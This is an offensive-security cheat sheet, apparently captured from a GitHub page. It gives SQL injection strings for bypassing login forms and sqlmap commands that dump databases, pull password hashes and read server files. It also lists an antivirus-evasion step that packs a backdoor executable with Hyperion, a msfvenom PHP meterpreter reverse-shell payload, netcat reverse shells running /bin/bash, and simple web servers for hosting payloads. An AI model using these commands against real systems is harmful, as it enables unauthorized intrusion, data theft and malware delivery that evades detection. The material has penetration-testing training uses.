 SQLInjections
Common Injections for Login Forms:

    admin' --
    admin' #
    admin'/*
    ' or 1=1--
    ' or 1=1#
    ' or 1=1/*
    ') or '1'='1--
    ') or ('1'='1—

SQLMap

    sqlmap -u http://xxx.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3       //  Automated sqlmap scan
    sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
    sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/xxx.php" // Targeted sqlmap scan
    sqlmap -u "http://xxx.com/xxx.php?id=1" --dbms=mysql --tech=U --random-agent --dump //  Scan url for union + error based injection with mysql backend and use a random user agent + database dump
    sqlmap -o -u "http://xxx.com/form/" –forms // sqlmap check form for injection
    sqlmap -o -u "http://xxx/vuln-form" --forms -D database-name -T users –dump // sqlmap dump and crack hashes for table users on database-name.
    sqlmap --flush session
        Flushes the session
    sqlmap -p user --technique=B
        Attempts to exploit the “user” field using boolean technique.

Miscellaneous

Tunneling:

    sshuttle -r root@10.0.0.1 10.10.10.0/24

sshuttle is an awesome tunneling tool that does all the hard work for you. It gets rid of the need for proxy chains. What this command does is tunnels traffic through 10.0.0.1 and makes a route for all traffic destined for 10.10.10.0/24 through your sshuttle tunnel.

AV Bypass:

    root@kali:~/Hyperion-1.0# wine hyperion.exe ../backdoor.exe ../backdoor_mutation.exe (This is a general example of how to evade AV)

Web hosts

    python -m SimpleHTTPServer 80 //  Basic HTTP Server
    service apache2 start //  Starts Apache web server. Place files in /var/www/html to be able to ‘wget’ them.

Php Meterpreter Shell (Remove Guard bit)

    msfvenom -p php/meterpreter/reverse_tcp LHOST=????????? LPORT=6000 R > phpmeterpreter.php

Netcat

    Listener: nc -lp PORT
    Target: ; nc -e /bin/bash listeneripaddress listenerport | or ncat -v -l -p 7777 -e /bin/bash
    Host: cat happy.txt | ncat -v -l -p 5555 Target: ncat localhost 5555 > happy_copy.txt  // download file via ncat
